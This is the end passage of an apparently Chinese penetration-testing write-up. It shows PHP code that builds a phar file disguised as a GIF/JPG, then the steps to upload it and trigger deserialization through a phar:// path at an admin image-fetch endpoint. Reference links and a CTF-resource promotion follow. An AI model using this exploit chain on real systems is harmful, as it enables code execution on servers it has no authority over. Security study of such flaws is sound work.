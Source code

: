 ```
    $phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');//设置stub
    $phar->setMetadata($a);//将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test");//添加要压缩的文件
    $phar->stopBuffering();
    rename('test.phar','test.jpg');
}
```

上传之后，在vps上放

```
phar://./upload/image/202105/uwQGQ5sBTWRppO3lfHzOpxLkKODMS9NkrYHdobkz.gif
```

再到/admin/neditor/serve/catchImage用file传参打就可以了

# 参考链接

https://laravelacademy.org/books/laravel-docs-5_7

https://xz.aliyun.com/t/5911

https://www.anquanke.com/post/id/189718#h2-9

https://www.anquanke.com/post/id/231079

# 福利分享：

![](img/45d8ffb933bd073fd082e9c7b276fc7d.png)

看到这里的大佬，动动发财的小手 **点赞 + 回复 + 收藏，能【 关注 】**一波就更好了

我是一名渗透测试工程师，为了感谢读者们，我想把我收藏的一些CTF夺旗赛干货贡献给大家，回馈每一个读者，希望能帮到你们。

干货主要有：

①1000+CTF历届题库（主流和经典的应该都有了）

②CTF技术文档（最全中文版）

③项目源码（四五十个有趣且经典的练手项目及源码）

④ CTF大赛、web安全、渗透测试方面的视频（适合小白学习）

⑤ 网络安全学习路线图（告别不入流的学习）

⑥ CTF/渗透测试工具镜像文件大全

⑦ 2021密码学/隐身术/PWN技术手册大全
